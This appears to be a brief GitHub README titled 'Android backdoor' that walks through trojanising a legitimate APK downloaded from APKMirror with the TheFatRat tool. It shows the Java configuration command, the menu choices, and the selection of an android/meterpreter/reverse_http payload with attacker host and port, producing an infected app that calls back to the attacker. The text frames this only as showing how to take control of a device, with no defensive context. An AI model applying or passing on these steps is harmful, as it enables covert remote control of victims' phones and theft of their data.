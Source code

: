 # Android backdoor

### This file is created to show how to create a backdoor and take control of an android device

1. We can download the apk from [APKMirror](http://www.apkmirror.com)

2. We need to change the default version of java to compile our generated backdoor. We will use fatrat.

```terminal
update-alternatiuves --config java
```

and we select the version we want to config.

3. We have to run fatrat, select the option to backdoring an original apk and configure our backdoor, e.g. the ip and port where we will be waiting a connection and The path of the downloaded APK..

```
sudo fatrat 

select choice 5

LHOST IP:
LPORT: 
Path:

Choose Payload: 1 -- this would be a android/meterpreter/reverse_http

Select tool to create apk: 1 --- Backdoor-apk 0.2.2
```

4. We will get the path of the generated apk. 